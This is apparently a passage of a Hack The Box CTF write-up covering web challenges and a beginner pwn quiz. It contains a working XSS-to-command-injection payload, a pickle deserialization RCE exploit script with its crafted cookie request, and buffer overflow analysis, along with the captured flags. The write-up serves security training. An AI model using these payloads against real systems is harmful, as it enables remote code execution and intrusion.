

To get the flag, we need to find a way to send request to `/api/stats?command=XXX`



> `challenge\templates\addresses.html`



> `challenge\static\js\script.js`


### Command Injection with XSS

Move the flag to web directory

```javascript
<script>fetch("/api/stats?command=cp /flag*.txt /app/static/css/flag.txt");</script>
```



> http://94.237.56.76:33295/static/css/flag.txt



## Spellbound Servants
### Unsafe deserialization - pickle

> `challenge\application\util.py`

Unsafe deserialization with `pickle.loads()` for user controlled cookie token

```python
def isAuthenticated(f):
    @wraps(f)
    def decorator(*args, **kwargs):
        token = request.cookies.get('auth', False)

        if not token:
            return abort(401, 'Unauthorised access detected!')
        
        try:
            user = pickle.loads(base64.urlsafe_b64decode(token))
            kwargs['user'] = user
            return f(*args, **kwargs)
        except:
            return abort(401, 'Unauthorised access detected!')
```

Dev tab



Flag is at `/flag.txt`



Google : `pickle unsafe des hacktricks`

> https://book.hacktricks.xyz/pentesting-web/deserialization#pickle

Craft pickle exploit

> `pickle_exp.py`

```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("cp /flag.txt /proc/self/cwd/application/static/js",))
print(base64.b64encode(pickle.dumps(P())))
```



`isAuthenticated` was called at `/home`, visit that page





Send request with crafted cookie in burp suite

> [!NOTE]
> Don't change cookie in browser, it will crash the app

```http
GET /home HTTP/1.1
Host: 83.136.253.102:35117
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://83.136.253.102:35117/
Connection: close
Cookie: auth=gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFjcCAvZmxhZy50eHQgL3Byb2Mvc2VsZi9jd2QvYXBwbGljYXRpb24vc3RhdGljL2pzlIWUUpQu
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

Get the flag

> http://83.136.253.102:35117/static/js/flag.txt



> `HTB{P1CkL3_15_f0R_SUP3R555!}`
# Pwn

## Lesson

> `main.c`

```c
#include <stdio.h>

void under_construction(){
  printf("This is under development\n");
}

void print_msg(char *user){
  char formatter[0x20];
  strncpy(formatter, user, 5);
  for (size_t i = 0; i < 5; i++) formatter[i] = tolower(formatter[i]);
  printf(strncmp(formatter, "admin", 5) == 0 ? "\nWelcome admin!\n\n" : "\nWelcome user!\n\n");
}

int main(int argc, char **argv){
  char name[0x20] = {0};
  unsigned long x, y;
  printf("Enter your name: ");
  scanf("%s", name);
  print_msg(name);
  return 0;
}
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice]
└─$ nc 83.136.253.102 42121
This is a quick lesson to get started with the basics.
```
### Q1

```bash
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                     ◉
◉  HINT: Run 'file ./main' to get some information about the binary.  ◉
◉                                                                     ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

[*] Question number 0x1:

Is this a '32-bit' or '64-bit' ELF? (e.g. 1337-bit)
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Lesson/challenge]
└─$ file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=da663acb70f9fa157a543a6c4affd05e53fbcb07, for GNU/Linux 3.2.0, not stripped
```

```bash
>> 64-bit

♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
♠                   ♠
♠      Correct      ♠
♠                   ♠
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
```
### Q2

```bash
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                   ◉
◉  HINT: Run 'gdb ./main' to open the binary in the debugger, then  ◉
◉        run 'checksec' to see the protections.                     ◉
◉                                                                   ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

[*] Question number 0x2:

Which of these 3 protections are enabled (Canary, NX, PIE)?
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Lesson/challenge]
└─$ ./main
zsh: permission denied: ./main

┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Lesson/challenge]
└─$ gcc main.c -o test

┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Lesson/challenge]
└─$ chmod +x ./test

┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Lesson/challenge]
└─$ gdb test
```

```bash
pwndbg> checksec
[*] '/home/kali/ctf/hacktheboo-2023-practice/Lesson/challenge/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```bash
>> NX

♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
♠                   ♠
♠      Correct      ♠
♠                   ♠
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
```
### Q3

```bash
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                           ◉
◉  HINT: Pay attention to the 'void print_msg(char *user)'  ◉
◉        and the 'strncmp(arg1, arg2, n_bytes)'.            ◉
◉                                                           ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

[*] Question number 0x3:

What do you need to enter so the message 'Welcome admin!' is printed?

>> admin

♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
♠                   ♠
♠      Correct      ♠
♠                   ♠
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
```

### Q4

```bash
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                       ◉
◉  HINT: This is the buffer --> char name[0x20] = {0};  ◉
◉                                                       ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

[*] Question number 0x4:

What is the size of the 'name' buffer (in hex or decimal)?
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice]
└─$ py
>>> 0x20
32
```

```bash
>> 32

♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
♠                   ♠
♠      Correct      ♠
♠                   ♠
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
```
### Q5

```bash
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                        ◉
◉  HINT: Only functions inside 'main()' are called.      ◉
◉        Also, the functions these functions call.       ◉
◉                                                        ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

[*] Question number 0x5:

Which custom function is never called? (e.g. vuln())

>> under_construction

♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
♠                   ♠
♠      Correct      ♠
♠                   ♠
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
```
### Q6

```bash
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                         ◉
◉  HINT: Which function reads the string from the stdin?  ◉
◉                                                         ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

[*] Question number 0x6:

What is the name of the standard function that could trigger a Buffer Overflow? (e.g. fprintf())

>> scanf

♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
♠                   ♠
♠      Correct      ♠
♠                   ♠
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
```
### Q7

```bash
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                         ◉
◉  HINT: A Segmentation Fault occurs when the return      ◉
◉        address is overwritten with an invalid address.  ◉
◉                                                         ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

[*] Question number 0x7:

Insert 30, then 39, then 40 'A's in the program and see the output.

After how many bytes a Segmentation Fault occurs (in hex or decimal)?
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Lesson/challenge]
└─$ xonsh
bravosec@fsociety ~/ctf/hacktheboo-2023-practice/Lesson/challenge @ 'A'*40
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Lesson/challenge]
└─$ ./test
Enter your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Welcome user!

zsh: bus error (core dumped)  ./test
```

```bash
>> 40

♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
♠                   ♠
♠      Correct      ♠
♠                   ♠
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
```
### Q8

```bash
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉
◉                                                                    ◉
◉  HINT: Run 'gdb ./main' to open the binary in the debugger, then   ◉
◉        run 'p <function_name>' to see the address of a function.   ◉
◉                                                                    ◉
◉        e.g. pwndbg> p main                                         ◉
◉             $2 = {<text variable, no debug info>} 0x401294 <main>  ◉
◉                                                                    ◉
◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉◉

[*] Question number 0x8:

What is the address of 'under_construction()' in hex? (e.g. 0x401337)
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Lesson/challenge]
└─$ gdb main
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401090  strncpy@plt
0x00000000004010a0  strncmp@plt
0x00000000004010b0  puts@plt
0x00000000004010c0  printf@plt
0x00000000004010d0  tolower@plt
0x00000000004010e0  __isoc99_scanf@plt
0x00000000004010f0  _start
0x0000000000401120  _dl_relocate_static_pie
0x0000000000401130  deregister_tm_clones
0x0000000000401160  register_tm_clones
0x00000000004011a0  __do_global_dtors_aux
0x00000000004011d0  frame_dummy
0x00000000004011d6  under_construction
0x00000000004011f0  print_msg
0x0000000000401294  main
0x000000000040130c  _fini
pwndbg> p under_construction
$1 = {<text variable, no debug info>} 0x4011d6 <under_construction>
```

```bash
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠
♠                   ♠
♠      Correct      ♠
♠                   ♠
♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠ ♠

Great job! It's high time you solved your first challenge! Here is the flag!

HTB{pwn_101_w1th_s0m3_b0f}
```